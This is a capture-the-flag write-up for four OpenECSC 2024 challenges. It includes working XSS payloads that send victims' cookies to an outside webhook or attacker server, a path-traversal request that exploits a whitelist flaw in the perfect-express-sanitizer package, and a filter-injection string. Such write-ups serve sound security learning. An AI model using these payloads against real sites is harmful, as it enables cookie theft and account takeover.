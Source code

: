 # OpenECSC 2024
https://github.com/ECSC2024/openECSC-2024
https://open.ecsc2024.it/

### Index
- [Web](#web)
    - [Fileshare](#chal1)
    - [Perfectshop](#chal2)
- [Reversing](#Reversing)
    - [fsvm1](#chal1)
- [Misc](#misc)
    - [Cablefish](#misc1)



# Web

## Fileshare
You can now share your files for free thanks to our new disruptive technology! <br>
Site: https://fileshare.challs.open.ecsc2024.it

### Solution

This challenge consists of a classic XSS (Cross Site Scripting) vulnerability. <br>
You are able to upload files and the goal is to get clients to execute a javascript payload, which steals their cookies. <br>
A headless rabbitmq chrome browser, containing the flag as a cookie, is used to simulate that client. You call it by sending a request to support.php.<br>

The Sanitization of the mimetype of the file uploaded is done poorly, it is possible to upload various malicious mimetypes such as application/xml, application/svg, etc. <br>
```php
// upload.php

// sanitize mimetype to not allow "h" letter
$type = $_FILES["file"]["type"];  // mime type of the file, not checked by php
// I don't like the letter 'h'
if ($type == "" || preg_match("/h/i", $type) == 1){    // empty or contains 'h'
    $type = "text/plain";
}

```

When downloading a file, the server adds the mimetype and reads the file and writes it to the output buffer using readfile(). <br>
```php
// download.php

if ($row) {
    $path = "/uploads/$id";
    header('Content-Type: '. $row['content_type']);

    // reads a file and writes it to the output buffer.
    readfile($path);
} else {
    header('Location: /');
}
```

My solution uses the application/xml mimetype to upload a xml file containing a javascript payload. This payload then sends the victims cookies to a server the attacker controll<br>
```javascript
Content-Type: application/xml

<script xmlns="http://www.w3.org/1999/xhtml"><![CDATA[
var message = document.cookie;
document.location="https://webhook.site/1425f028-434d-494f-8e2c-d308787ccebe/?c="+message;
]]></script>
```


## Perfectshop
Do you like perfect things? Check out my new online shop! <br>
Site: http://perfectshop.challs.open.ecsc2024.it

### Solution

To solve Perfectshop you need to craft a payload containing Path Traversal, XSS and using a 0day in an dependency used. <br>


The App utilizes the perfect-express-sanitizer middleware to sanitize every request for Cross Site Scripting, except requests going to the whitelisted /admin endpoint. <br>
Repository of sanitizer middleware: https://github.com/pariazar/perfect-express-sanitizer
```javascript
const sanitizer = require("perfect-express-sanitizer");
app.use(sanitizer.clean({ xss: true }, ["/admin"]));
```

The Sanitizer Middleware cointains a flaw, when checking for requests going to whitelisted endpoints. <br>
Commit fixing the 0day: https://github.com/pariazar/perfect-express-sanitizer/commit/32ff0f08c74bb4fa6224acff06ebbc3b869f16f5
```javascript
// it should be checking if the url starts with the whitelisted endpoint, not if it contains it.
if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
if (req[k] && !whiteList.some((v) => req.url.trim().startsWith(v))) {   // fixed version
```


It is important to include "/admin" in the URL and the body of the request, to prevent the sanitizer from cleaning the payload. <br>
First the payload uses a simple Path Traversal to access the /search endpoint, to be able to execute the reflected XSS vulnerability. <br>
Then the payload loads a script from the attackers server, which sends the cookies to the attacker. This is done to bypass the search query limit of 50 characters.<br>
#### Payload
```http
POST /report?q=/admin HTTP/1.1
id=3../../../search?q=<script%20src="http://f1re.dev/admin"></script>&message=as/admin
```
#### Payload Script on Attackers Server
```javascript
fetch('http://<attackers_server>/${document.cookie}')
```


# Reversing

## fsvm1
I want this VM to generate a good description, but all I get is "no".

### Solution

Fsvm1 is a reversing challenge with VM-based obfuscation.<br>
Normally the goal would be to write a disassembler, which provides pseudo disassembly code of the bytecode. <br>
Luckily the virtual registers are implemented using files, which gives the possibility to monitor the filesystem for changes. When done, the flag is obtained as an ASCII encoded string of numbers.<br>

```bash
while inotifywait -e close_write -r regs/; do 
cat regs/*
done
```
```bash
regs/ CLOSE_WRITE,CLOSE reg0
1251111flag:0regs/ CLOSE_WRITE,CLOSE reg0
61flag:05210014000regs/ CLOSE_WRITE,CLOSE reg2
0121flag:052101565599521001400000000regs/ CLOSE_WRITE,CLOSE reg2
01211211flag:012111810999521015655995210014000000000000regs/ CLOSE_WRITE,CLOSE reg2
01011flag:011410197115121118109995210156559952100140000000000000000regs/ CLOSE_WRITE,CLOSE reg1
121flag:0115117112101114101971151211181099952101565599521001400000000000000000000regs/ CLOSE_WRITE,CLOSE reg2
691flag:06783671231151171121011141019711512111810999521015655995210014000000000000000000000000regs/ CLOSE_WRITE,CLOSE reg1
1111110flag:0111111210111069678367123115117112101114101971151211181099952101565599521001400000000000000000000000000000 
```

# Misc

## Cablefish
Welcome to our platform! Here you can do traffic analysis via TCP, isn't it awesome? <br>
Just specify your filter, we will sanitize it (we want to make sure no sensitive data will be leaked) and you will be given the traffic! <br>
This is a remote challenge, you can connect with: <br>
nc cablefish.challs.open.ecsc2024.it 38005 <br>

### Solution

when connecting you are able to specify a filter, the filter will be sanitized and then used to filter the traffic. <br>
the goal is to escape the sanitization to get the flag. <br>

```python
# sanitization filter:
filter = filter[:50]
sanitized_filter = f'(({filter}) and (not frame contains "flag_placeholder"))'

# payload: frame contains "flag_placeholder") or not (tcp

```



<img src="cablefish_flag.png" alt="cablefish_flag.png" width="600"/>

